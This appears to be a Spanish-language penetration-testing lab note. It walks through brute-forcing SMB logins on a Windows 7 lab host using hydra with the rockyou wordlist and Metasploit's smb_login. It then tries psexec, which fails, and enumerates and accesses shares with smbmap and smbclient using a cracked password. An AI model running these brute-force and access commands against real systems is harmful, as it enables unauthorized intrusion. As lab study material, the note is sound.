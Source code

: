 Vamos a utilizar la máquina windows 7 que ya tiene habilitado el login por smb:
![[Pasted image 20240613010418.png]]

Vemos que desde Kali podemos iniciar sesión:
![[Pasted image 20240613010422.png]]

Por tanto, podemos intentar iniciar sesión por smb usando hydra, que lo haríamos de la siguiente forma:
```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt smb://192.168.0.28
```

![[Pasted image 20240613010427.png]]

Aunque también podemos hacer otro ataque de fuerza bruta con el módulo de use auxiliary/scanner/smb/smb_login:
![[Pasted image 20240613010435.png]]

Realizamos las configuraciones añadiendo el diccionario (rockyou o unix_passwords, RHOSTS y lanzamos el ataque):
![[Pasted image 20240613010440.png]]

Y nos encuentra la contraseña:
![[Pasted image 20240613010446.png]]

Una vez hecho esto, es posible que podamos entrar dentro de la máquina por psexec usando el siguiente módulo:
```bash
use exploit/windows/smb/psexec
```
Donde le cargamos los datos para iniciar sesión obtenidos anteriormente:
![[Pasted image 20240613010459.png]]

Pero vemos que en este caso no funcionó:
![[Pasted image 20240613010505.png]]

Pero sí que podemos entrar por smb y enumerar usando herramientas como smbmap:
```bash
smbmap -H 192.168.0.28 -u mario -p 123123 -r Users
```

![[Pasted image 20240613010522.png]]

Y una vez hayamos enumerado el recurso compartido ya podremos acceder a él usando smbclient:
```bash
smbclient -U 'mario' //192.168.0.28/Users
```

![[Pasted image 20240613010528.png]]
